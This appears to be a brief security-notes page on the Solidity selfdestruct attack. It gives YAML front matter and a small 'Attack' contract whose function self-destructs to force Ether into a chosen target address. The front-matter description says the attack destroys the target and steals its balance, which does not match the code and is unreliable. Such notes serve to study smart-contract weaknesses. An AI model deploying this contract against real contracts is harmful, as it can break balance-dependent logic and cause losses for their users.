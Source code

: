 ```yaml
---
title: Solidity Self Destruct Attack
description: Solidity’s ‘selfdestruct’ function may be used to destruct a target contract and steal the balance by an attacker.
tags:
    - Blockchain
    - Ethereum
refs:
date: 2023-09-30
draft: false
---
```


## Create a Malicious Contract for Destructing Contract

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.4.0;

contract Attack {
    function attack(address _address) payable public {
        // the remaining Ether sent to _address when destructing
        selfdestruct(_address);
    }
}
```
